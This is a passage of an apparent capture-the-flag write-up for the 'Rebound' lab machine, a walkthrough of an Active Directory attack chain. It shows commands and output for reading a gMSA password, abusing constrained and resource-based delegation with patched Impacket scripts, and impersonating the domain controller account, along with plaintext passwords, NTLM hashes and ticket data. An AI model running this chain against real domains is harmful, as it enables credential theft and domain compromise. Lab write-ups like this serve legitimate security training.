543BOMBOMBUNmanda (tbrady)  
```

### ReadGMSApassword

now we can use ReadGMSApassword


first of all lets get beacon for tbrady then we can use GMSAPasswordReader.exe



or we can use Linux Abuse which is really easier

```sh
➜  rebound ntpdate -q 10.10.11.231
2025-03-14 07:28:37.672595 (-0400) +25200.062478 +/- 0.105424 10.10.11.231 s1 no-leap
➜  rebound faketime '2025-03-14 07:28:37' nxc ldap rebound.htb -u tbrady -p 543BOMBOMBUNmanda -k --gmsa
SMB         rebound.htb     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAPS       rebound.htb     636    DC01             [+] rebound.htb\tbrady:543BOMBOMBUNmanda 
LDAPS       rebound.htb     636    DC01             [*] Getting GMSA Passwords
LDAPS       rebound.htb     636    DC01             Account: delegator$           NTLM: 46266fb450937ee73e2d51bff9493882
```

and yeah it works

```sh
➜  rebound nxc smb rebound.htb -u delegator$ -H 46266fb450937ee73e2d51bff9493882
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.231    445    DC01             [+] rebound.htb\delegator$:46266fb450937ee73e2d51bff9493882 
```

## AllowedToDelegate

.png>)

we can also check this with findDelegation.py

```sh
➜  rebound ntpdate -q 10.10.11.231
2025-03-15 02:50:32.196166 (-0400) +25199.580349 +/- 0.039311 10.10.11.231 s1 no-leap
➜  rebound faketime '2025-03-15 02:50:32' python3 /opt/impacket/examples/findDelegation.py 'rebound.htb/delegator$' -dc-ip 10.10.11.231 -k -hashes :46266fb450937ee73e2d51bff9493882
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting machine hostname
[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
AccountName  AccountType                          DelegationType  DelegationRightsTo     SPN Exists 
-----------  -----------------------------------  --------------  ---------------------  ----------
delegator$   ms-DS-Group-Managed-Service-Account  Constrained     http/dc01.rebound.htb  No   
```

To think about constrained delegation, let’s take an example of a web server and a database server. The user auths to the webserver, and the by sending it’s Service Ticket (ST, also known as Ticket Granting Service or TGS ticket) to the webserver. The webserver wants to auth as the user to the DB to only get stuff that the user is allowed to access. It sends a special TGS request to the DC asking for auth to the DC, and attaching the ST or TGS ticket from the user. The DC will check that the webserver is allowed to delegate to the DB server and that the ST / TGS ticket from the user has the forwardable flag. If so, it returns a ST / TGS ticket that says this is the user trying to access the DB. This all makes use of the [S4U2Proxy](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a) extension.

So what happens is the user doesn’t use Kerberos to authenticate to the web server (perhaps NTLM)? The web server needs a ST / TGS ticket for the user to the web server to request one for the DB. The web server can request a ST / TGS ticket from the DC for the user to the webserver using the [S4U2Self](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13) extension. This ticket will only come back with the forwardable flag *if* the delegation is configured as “Constrained w/ Protocol Transition”.

The delegation above doesn’t have the “w/ Protocol Transition” part, so I can’t just request a ST / TGS ticket and get access as any user to the DC.

```sh
➜  rebound ntpdate -q 10.10.11.231
2025-03-15 02:53:15.185232 (-0400) +25199.583591 +/- 0.040801 10.10.11.231 s1 no-leap
➜  rebound faketime '2025-03-15 02:53:15' python3 /opt/impacket/examples/getST.py -spn http/dc01.rebound.htb -impersonate administrator 'rebound.htb/delegator$' -hashes :46266fb450937ee73e2d51bff9493882
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_BADOPTION(KDC cannot accommodate requested option)
[-] Probably SPN is not allowed to delegate by user delegator$ or initial TGT not forwardable
➜  rebound 
```

It is using S4U2Self to get a ticket for the administrator user for 
delegator$, and then trying to use S4U2Proxy to forward it, but it 
doesn’t work. The -self flag tells getSt.py
 to stop after the S4U2Self, getting a ticket for administrator for 
delegator$. The resulting ticket is missing the forwardable flag:

### Resource-Based Constrained Delegation

n the above constrained delegation, the DC tracked on the web server object that it was allowed to delegate (without protocol transition) for the DB. In resource-based constrained delegation, it’s similar, but the DC tracks a trusted list of accounts on the DB object what services are allowed to delegate to it, and the resource can modify it’s own list.

### **Add ldap_monitor to delegator$**

To move forward with this attack, I’m going to set ldap_monitor as a trusted to delegate account for delegator$ using the `rbcd.py` script from Impacket.

- `rebound/delegator$` - The account to target. Will auth as this account to the DC.
- `hashes :`46266fb450937ee73e2d51bff9493882 - The hashes for this account to authenticate.
- `k` - Use Kerberos authentication (it will use the hash to get a ticket).
- `delegate-from ldap_monitor` - Set that `ldap_monitor` is allow to delegate.
- `delegate-to 'delegator$'` - Set the it is allow to delegate for delegator$.
- `action write` - `write` is to set the value. Other choices for `action` are `read`, `remove`, and `flush`.
- `dc-ip dc01.rebound.htb` - Tell it where to find the DC.
- `use-ldaps` - Fixes the binding issues described above.

All of this together updates the RBCD list:

```sh
➜  rebound python3 /opt/impacket/examples/rbcd.py 'rebound.htb/delegator$' -hashes :46266fb450937ee73e2d51bff9493882 -k -delegate-from ldap_monitor -delegate-to 'delegator$' -action write -dc-ip DC01.rebound.htb -use-ldaps

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] invalid server address
```

but we got this errorr……..

I repeated this process using older versions of Impacket, and it continued to throw the same error. Deciding to debug the `rbcd.py` program, I noticed that the issue originated from the `init_ldap_connection` function. Therefore, I created a virtual Python environment and made slight modifications to the function:



its about this

we have to change with

```python
def init_ldap_connection(target, tls_version, args, domain, username, password, lmhash, nthash):
    user = '%s\\%s' % (domain, username)
    connect_to = target
    if args.dc_ip is not None:
        connect_to = args.dc_ip
    if tls_version is not None:
        use_ssl = True
        port = 636
        tls = ldap3.Tls(validate=ssl.CERT_NONE, version=tls_version)
    else:
        use_ssl = False
        port = 389
        tls = None
    ldap_server = ldap3.Server(connect_to, get_info=ldap3.ALL, port=port, use_ssl=use_ssl, tls=tls)
    if args.k:
        ldap_session = ldap3.Connection(ldap_server)
        ldap_session.bind()
        ldap3_kerberos_login(ldap_session, target, username, password, domain, lmhash, nthash, args.aesKey, kdcHost=args.dc_ip)
    elif args.hashes is not None:
        ldap_session = ldap3.Connection(ldap_server, user=user, password=lmhash + ":" + nthash, authentication=ldap3.NTLM, auto_bind=True)
    else:
        ldap_session = ldap3.Connection(ldap_server, user=user, password=password, authentication=ldap3.NTLM, auto_bind=True)

    return ldap_server, ldap_session
```

and boommm!!!

```sh
➜  rebound ntpdate -q 10.10.11.231
2025-03-15 03:14:00.862109 (-0400) +25200.498450 +/- 0.037071 10.10.11.231 s1 no-leap
➜  rebound faketime '2025-03-15 03:14:00' python3 rbcd.py 'rebound.htb/delegator$' -hashes :46266fb450937ee73e2d51bff9493882 -k -delegate-from ldap_monitor -delegate-to 'delegator$' -action write -dc-ip DC01.rebound.htb -use-ldaps

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ldap_monitor can now impersonate users on delegator$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ldap_monitor   (S-1-5-21-4078382237-1492182817-2568127209-7681)
```

and lets check with findDelegation again

```sh
➜  rebound ntpdate -q 10.10.11.231
2025-03-15 03:15:16.696016 (-0400) +25200.500457 +/- 0.038784 10.10.11.231 s1 no-leap
➜  rebound faketime '2025-03-15 03:15:16' python3 /opt/impacket/examples/findDelegation.py 'rebound.htb/delegator$' -dc-ip 10.10.11.231 -k -hashes :46266fb450937ee73e2d51bff9493882
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting machine hostname
[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
AccountName   AccountType                          DelegationType              DelegationRightsTo     SPN Exists 
------------  -----------------------------------  --------------------------  ---------------------  ----------
ldap_monitor  Person                               Resource-Based Constrained  delegator$             No         
delegator$    ms-DS-Group-Managed-Service-Account  Constrained                 http/dc01.rebound.htb  No      
```

nice lets grab DC01.cache file

and boommmm!!!!

```sh
➜  rebound ntpdate -q 10.10.11.231
2025-03-15 03:16:15.242584 (-0400) +25200.497739 +/- 0.041452 10.10.11.231 s1 no-leap
➜  rebound faketime '2025-03-15 03:16:15' python3 /opt/impacket/examples/getST.py 'rebound.htb/ldap_monitor:1GR8t@$$4u' -spn browser/dc01.rebound.htb -impersonate DC01$
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating DC01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache
```

There is a cleanup script resetting delegation, so if this doesn’t work, I’ll make sure to re-run the `rbcd.py` script above.

This saves a ST / TGS ticket as the DC computer account for delegator$ into a file, and this time it is forwardable:

```sh
➜  rebound python3 /opt/impacket/examples/describeTicket.py DC01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : b846dafc8b8da4a741a52427f2b12e23
[*] User Name                     : DC01$
[*] User Realm                    : rebound.htb
[*] Service Name                  : browser/dc01.rebound.htb
[*] Service Realm                 : REBOUND.HTB
[*] Start Time                    : 15/03/2025 03:16:25 AM
[*] End Time                      : 15/03/2025 13:16:25 PM
[*] RenewTill                     : 16/03/2025 03:16:15 AM
[*] Flags                         : (0x40a10000) forwardable, renewable, pre_authent, enc_pa_rep
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : uEba/IuNpKdBpSQn8rEuIw==
[*] Kerberoast hash               : $krb5tgs$18$USER$REBOUND.HTB$*browser/dc01.rebound.htb*$64d5f9549402d7458f347d98$bd3aeb850051c16d67fe9f1d0bc755f90923b76ef871a5996357319abf627f3811550dfae0f94347ed9c16221ebdd72436473aa8aa05e18fdad2939557db83233d9df90d1b1944ddd92a7870438151fbcd4e93353a64c24a98819848b49f23ecb6b19ffd283ef76826837089166e3d1f36ca8052ec0c7794fc0c38007a7a933865fe267b8f72e96cccdd69f5aa628417260e6a712b273bd0ea042c4076d55fe50510f2d9bde7e465d6802450f7ce9806be6c29d1e07fdb3d853fd1da63eb104cb5549f6fa67f74d0c534b9595503507f7c67099310b6e1b4494cab17a84ba15ddf18b19fc2a2dcffba828959a2fd95b65a9575fe235bf41a26cb0c4cd72dff446fbe9177c30e3dc17d5a578956ce4b719e5735675f00739aca144753b017248b37c4bb5c84170a9c765a2328ebb3393b866ad90384d73be925c0ffd851037c159106a91085e4e842188afbf08a9f81b430020ff6898fc923d39f795aa554f37eb130cc6d94ab68fa98b8d9298c06ca4b66fdec852a8353d0b48c32474bdad3857d851796c96ca5b16a4666c58d9be38433d4d8601c068d84a794764eca8b58c859842940227001613a9cb64d4f8ef9c59eb8663ff8df2721643a30d34b35c9f5c8014203a180cc59997f77c4c74f44716f34c3cd282e9b0ef8f95422dd753803189ead169b44f4ad870ffe09de89eb8655ed26f1fd9372b8a5d79753499ebfac0b37cc84c435be096e5b96347a56a21124d20ef22612d92fafdde642ef3cd33fcf436974470986e069af77150650a30f5a15474a044b15c73cffc13c81386ef0c64494145bed31a898cf67e2029f8d4d38bebf807bbaf548152afdf3a5b27258e6dee4f0f230b97c756d289ba3fa16a63d535915ab3b975e647443fea57c5634339c0a823cd65d3750b49cc481d90c7c64eb200e985ba4f4b908da53dcfcc15a6ca5b963081549a92256cf1917ce9bd28609fe9031d334af5442d1e708db0fbe91d7481f486838cb5a6a4fbf768421fbfefdb88a9e9b18e2449592f5efbf55bb1f0dd132b3cf068b29b4b8c94370bb48400cb6a24b4d7815fc144ee0005de7df872319dc4afc64abab21105c9ca63198c9c7cd8b834f20c1cf8c044a83485dd4f4ada0b2f98b9ae66121e77a7895afb02b06670f21f42fac16f51264e0f9f426ae2af22a302a9ea43b82eec8c84d5450081a017ce3dde31c093d26bec951a5b1181b6897c79292af4f33219b4e5b13c0536d693a566a0fc688b8cc58e7b4e42c3f73eccff5e562c4e38c3ef32079bb32900334657dcca4fa3effce549a207754d23847c61feb31547428b61320b73c155beb03521a4464fddcf7bdbe270e2440d12697e9b4c78b31a098409723ac5237d7306138071c262b47b7d6f5838d7846a3f52d599e17acd657b5c0bca8c30a0ed813c42963ed195a31e0e962292859ba83cc517299c754fae9f928e39ea69a2c79fec894fc77331cf6da221032c206b86188f89adefe32855dbd1a132bd1b0f211e52a1b9b152a566a0eb0bc5edeb0b90dbd7dae0e6221ac7b73e6d689332a45c88c8224ccccf7963dd6c0c3316cee73b6e0e433673c44858679a960ba6b477e628438ff5371277e817790322310ae47c817ee7a6b97e38eee14ce5518990e8dafb5299c4ce34b37267135ec7024c25fd5c9a21c2271481bcdcbe6c3d680ff8f61bf9e71b8205a4a55e206c274257ec22a6253240020345746f8f7e52d30d851bdf479091a7d38063b789cd97516a6f182bfb24d3639d47a540315ec3291dc2a8466fd3c392770be6c7b25dbe11f60a92f
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : browser/dc01.rebound.htb
[*]   Service Realm               : REBOUND.HTB
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
```

This is what was missing above.

Now that I have a ST / TGS ticket as DC01$ for delegator$, delegator$ can use that along with the constrained delegation to get a ST on DC01 as DC01.

```sh
➜  rebound ntpdate -q 10.10.11.231
2025-03-15 03:23:03.678111 (-0400) +25200.506009 +/- 0.039159 10.10.11.231 s1 no-leap
➜  rebound faketime '2025-03-15 03:23:03' python3 /opt/impacket/examples/getST.py -spn http/dc01.rebound.htb -impersonate 'DC01$' 'rebound.htb/delegator$' -hashes :46266fb450937ee73e2d51bff9493882 -additional-ticket DC01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating DC01$
[*]     Using additional ticket DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache instead of S4U2Self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@http_dc01.rebound.htb@REBOUND.HTB.ccache
➜  rebound 
```


